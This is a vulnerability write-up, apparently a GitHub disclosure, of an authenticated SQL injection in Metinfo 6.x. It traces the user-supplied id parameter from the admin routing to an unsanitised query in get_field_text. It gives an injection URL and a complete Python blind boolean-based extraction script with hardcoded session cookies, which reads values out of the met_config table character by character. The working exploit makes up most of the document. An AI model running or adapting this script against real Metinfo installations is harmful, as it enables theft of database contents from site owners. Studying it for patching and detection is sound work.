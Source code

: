 # Metinfo 6.x Background SQL injection

Line 790 of app/system/include/class/view/ui\_compile.php 

The get\_field\_text function at the beginning of the line

```php
   /*----------------- 前台可视化操作---------------------*/

    public function get_field_text($table, $field, $id){
        global $_M;

        $query = "SELECT * FROM {$_M['table'][$table]} WHERE id = {$id}";
        $res = DB::get_one($query);
        if(!$res){
            return false;
        }
        $this->response['status'] = 1;
        $this->response['text'] = $res[$field];
        if($table == 'templates'){
            $this->response['type'] = $res['type'];
        }

        return $this->response;
    }
```

In ` $query `, directly to the id in the SQL statement


Go back up, global search，and find app/system/ui\_set/admin/index.class.php

```php
/**
	* 前端通过表、字段、id来获取文本内容
	* @DateTime 2017-11-09
	* @return   json
	*/
public function doget_text_content(){
	global $_M;
	$table = $_M['form']['table'];
	$field = $_M['form']['field'];
	$id = $_M['form']['id'];
	#load::sys_class('view/ui_compile');
	$ui_compile = load::sys_class('view/ui_compile','new');
	$content = $ui_compile->get_field_text($table,$field,$id);
	echo jsonencode($content);die;
}
```

The function doget\_text\_content call get_field_text，And all three parameters are retrieved from the form，This function is then called

If you're familiar with metinfo，/admin/index.php You can call any method that begins with 'do'

```php
define('IN_ADMIN', true);
//�ӿ�
$M_MODULE='admin';
if(@$_GET['m'])$M_MODULE=$_GET['m'];
if(@!$_GET['n'])$_GET['n']="index";
if(@!$_GET['c'])$_GET['c']="index";
if(@!$_GET['a'])$_GET['a']="doindex";
@define('M_NAME', $_GET['n']);
@define('M_MODULE', $M_MODULE);
@define('M_CLASS', $_GET['c']);
@define('M_ACTION', $_GET['a']);
require_once '../app/system/entrance.php';
```

Here, the doget\_text\_content function is just the beginning of 'do'，Analysis of the /app/system/entrance.php and tectonic utilization chain

```php
admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id=1%20and%20(length((1))=1)
```

exploit(need to login)：

```python
#coding: utf-8
import requests
import string

url = 'http://{}/admin/index.php?n=ui_set&m=admin&c=index&a=doget_text_content&table=lang&field=1&id='

cookies = {'PHPSESSID':'2a466962d449c985384d778b0baa4b91','met_key':'Kk1PIKr','met_auth':'4e62Obpf1dkI9%2BnpVFlvSwTHNRpwR1KRez5rGREZOpqZlT3Xox6Wn%2FnU%2BnEnVoePzYtgJBs9arFHHD%2B99qXxBhYdJw'}

def get_res_len(host,sql):
	global url
	url = url.format(host)
	max_len = 101
	s = requests.session()
	for i in range(1,max_len):
		check_sql = "1 and (length(({}))={})".format(sql,str(i))
		res = s.get(url+check_sql,cookies=cookies)
		if "{}" not in res.text:
			print i
			return i
	print ("data too long")

def get_sqli_data(host,sql):
	global url
	data_len = get_res_len(host,sql)
	sqli = "1 and (ascii(substr(({}),{},1)))={}"
	data = ""
	s = requests.session()
	for i in range(data_len+1):
		for c in string.printable[0:62]:
			res = s.get(url+sqli.format(sql,str(i),ord(c)),cookies=cookies)
			if "status" in res.text:
				data += c
				print (data)

if __name__ == "__main__":
	host = ""
	sql = "select value from met_config where id = 45"
	get_sqli_data(host,sql)
```

For example, get a parameter in met\_config

![](https://i.loli.net/2019/05/12/5cd7bb7f13ffc.png)

